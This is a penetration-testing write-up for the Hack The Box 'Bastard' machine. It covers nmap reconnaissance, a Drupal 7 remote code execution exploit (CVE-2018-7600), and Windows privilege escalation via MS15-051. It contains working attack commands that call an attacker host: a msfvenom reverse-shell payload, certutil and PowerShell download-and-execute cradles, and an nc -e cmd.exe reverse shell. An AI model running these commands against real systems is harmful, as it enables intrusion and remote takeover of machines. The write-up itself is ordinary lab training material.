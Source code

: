 ```yaml
---
title: "Bastard - Writeup"
classes: single
ribbon: LightBlue
categories:
  - writeup
tags:
  - Bastard
  - writeups
  - pentest
  - writeup
  - oscp
  - shell
  - exploit
  - htb
  - hackthebox
  - machine
  - medium
  - windows
toc: true
hide_title: true
excerpt: ""
sidebar:
        nav: "menu_writeups"
---
```


## Bastard
![](https://kar0nx.github.io/assets/images/writeup/a8d2ae87fbe6d1ccfe93522d74defb3a.webp)
 
## Reconnaissance

IP: 10.10.10.9
### NMAP

```
nmap -T4 -p- -A 10.10.10.9
```

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-10 12:14 EDT
Nmap scan report for 10.10.10.9
Host is up (0.032s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT      STATE SERVICE VERSION
80/tcp    open  http    Microsoft IIS httpd 7.5
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-generator: Drupal 7 (http://drupal.org)
|_http-title: Welcome to Bastard | Bastard
|_http-server-header: Microsoft-IIS/7.5
| http-methods: 
|_  Potentially risky methods: TRACE
135/tcp   open  msrpc   Microsoft Windows RPC
49154/tcp open  msrpc   Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 8|Phone|7|2008|Vista|8.1 (90%)
OS CPE: cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1 cpe:/o:microsoft:windows_8.1
Aggressive OS guesses: Microsoft Windows 8.1 Update 1 (90%), Microsoft Windows Phone 7.5 or 8.0 (90%), Microsoft Windows Embedded Standard 7 (89%), Microsoft Windows Server 2008 R2 (89%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (89%), Microsoft Windows 7 (89%), Microsoft Windows 7 Professional or Windows 8 (89%), Microsoft Windows Vista SP0 or SP1, Windows Server 2008 SP1, or Windows 7 (89%), Microsoft Windows Vista SP2 (89%), Microsoft Windows Vista SP2, Windows 7 SP1, or Windows Server 2008 (88%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 135/tcp)
HOP RTT      ADDRESS
1   31.68 ms 10.10.14.1
2   32.18 ms 10.10.10.9

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 160.36 seconds
```
## Website
### Site

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250310171757.png)

```
http://10.10.10.9/CHANGELOG.txt
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250310173135.png)

https://github.com/pimps/CVE-2018-7600

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250311154652.png)


## Gaining Access

msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.23 LPORT=1337 -f exe -o reverse.exe

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.23 LPORT=1337 -f exe -o reverse.exe
```

```
nc -nvlp 1337
```

```
python3 drupa7-CVE-2018-7600.py http://10.10.10.9/ -c 'certutil.exe -urlcache -f http://10.10.14.23/reverse.exe rev.exe'

python3 drupa7-CVE-2018-7600.py http://10.10.10.9/ -c 'rev.exe' 
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250311155500.png)
## Privilege Escalation

https://book.hacktricks.wiki/en/windows-hardening/basic-powershell-for-pentesters/index.html

```
python3 drupa7-CVE-2018-7600.py  http://10.10.10.9/ -c "echo IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.23/Sherlock.ps1') | powershell -noprofile -"
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250311163529.png)

https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS15-051/MS15-051-KB3045171.zip

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250311164722.png)

```
cd c:/temp
```

```
certutil.exe -urlcache -f http://10.10.14.23/ms15-051x64.exe ms15.exe
```

```
certutil.exe -urlcache -f http://10.10.14.23/nc.exe nc.exe
```

```
ms15.exe "nc.exe 10.10.14.23 4444 -e cmd.exe"
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250311165526.png)